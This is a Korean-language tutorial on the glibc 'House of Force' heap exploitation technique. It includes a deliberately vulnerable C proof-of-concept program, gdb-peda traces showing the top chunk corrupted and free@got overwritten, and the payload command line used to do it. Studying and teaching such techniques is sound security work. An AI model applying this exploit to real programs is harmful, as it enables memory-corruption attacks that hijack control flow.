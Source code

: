 # **The House_of_Force**

### **Top Chunk**
 
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc,char *argv[]){
	int size;
	char *buf1, *buf2, *buf3;
	
	buf1 = malloc(256);
	buf2 = malloc(256);
	buf3 = malloc(256);

	free(buf3);
	free(buf2);
	free(buf1);
}
```

일반적으로 Heap 영역에 할당되는 0x21000에서 malloc하여 할당된 chunk size를 뺀 값이 Top Chunk의 크기이다. 

```
0x21000 - 0x110(malloc) = 0x20ef0
0x20ef0 - 0x110(malloc) = 0x20de0
0x20de0 - 0x110(malloc) = 0x20cd0
```

Top Chunk는 재사용 가능한 Chunk가 없고, Top Chunk의 크기가 요청 크기보다 작을 경우 Top Chunk에서 나눠서 할당을 해준다.

Top Chunk에 인접한 Chunk가 free되면 병합하는데 fastbin의 경우 병합에서 제외된다.

```
0x20cd0 + 0x110(free) = 0x20de0
0x20de0 + 0x110(free) = 0x20ef0
0x20ef0 + 0x110(free) = 0x21000
```

## **Conditions**

* 공격자에 의해 Top Chunk를 덮어쓸 수 있어야 함(0xffffffffffffffff)
* 공격자에 의해 할당되는 Heap 크기를 제어할 수 있어야 함
* 공격자에 의해 할당된 Chunk 영역에 값을 저장할 수 있어야 함

## **Exploit Plan**

1. Heap 영역 생성
1. Top Chunk 변조
1. 계산된 값을 malloc 인자 값으로 전달해 메모리를 할당
    * Target Address - Allocated Chunk Header Size(16 or 8) - Top Chunk Address
1. 다시 malloc 호출
    * 공격자가 원하는 영역이 할당됨

## **Proof of Concept**

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
 
int main(int argc, char *argv[])
{
        char *buf1, *buf2, *buf3;
        if (argc != 4) return;
 
        buf1 = malloc(256);
        strcpy(buf1, argv[1]);
 
        buf2 = malloc(strtoul(argv[2], NULL, 16));
 
        buf3 = malloc(256);
        strcpy(buf3, argv[3]);
 
        free(buf3);
        free(buf2);
        free(buf1);
 
        return 0;
}
```

argv1 Overflow를 통해 Top Chunk를 0xffffffffffffffff로 변조한다.

```
gdb-peda$ heapbase
heapbase : 0x602000
gdb-peda$ x/24gx 0x602000
0x602000:	0x0000000000000000	0x0000000000000111
0x602010:	0x4141414141414141	0x4141414141414141
0x602020:	0x4141414141414141	0x4141414141414141
0x602030:	0x4141414141414141	0x4141414141414141
0x602040:	0x4141414141414141	0x4141414141414141
0x602050:	0x4141414141414141	0x4141414141414141
0x602060:	0x4141414141414141	0x4141414141414141
0x602070:	0x4141414141414141	0x4141414141414141
0x602080:	0x4141414141414141	0x4141414141414141
0x602090:	0x4141414141414141	0x4141414141414141
0x6020a0:	0x4141414141414141	0x4141414141414141
0x6020b0:	0x4141414141414141	0x4141414141414141
0x6020c0:	0x4141414141414141	0x4141414141414141
0x6020d0:	0x4141414141414141	0x4141414141414141
0x6020e0:	0x4141414141414141	0x4141414141414141
0x6020f0:	0x4141414141414141	0x4141414141414141
0x602100:	0x4141414141414141	0x4141414141414141
0x602110:	0x4141414141414141	0xffffffffffffffff <- Top Chunk

gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x602110 (size : 0xfffffffffffffff8) (top is broken ?) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0
```

"free@got(0x601018)" - "Chunk header size(0x10)" - "Top chunk address(0x602118)" - 0x8 = 0xffffeee8  
  * -0x8을 한 이유 -> Heap 영역은 0x*0 단위로 할당하기 때문

argv2에 0xffffeee8을 입력하여 해당 크기만큼 malloc을 해준다.

argv3에 BBBBBBBBCCCCCCCC를 입력하면 free@got가 변조된다.

```
gdb-peda$ r $(python -c 'print "A"*0x108+"\xff"*8') 0xffffffffffffeee8 BBBBBBBBCCCCCCCC

gdb-peda$ x/24gx 0x601018-0x10
0x601008:	0x0000000000000111	0x4242424242424242
0x601018:	0x4343434343434343	0x00007ffff7ab2900
0x601028:	0x00007ffff7a2d740	0x00007ffff7a91130
0x601038:	0x00007ffff7a483f0	0x0000000000000000
```

**References**  
<https://www.lazenca.net/display/TEC/The+House+of+Force>
<https://hackstoryadmin.tistory.com/entry/What-is-heap-part1>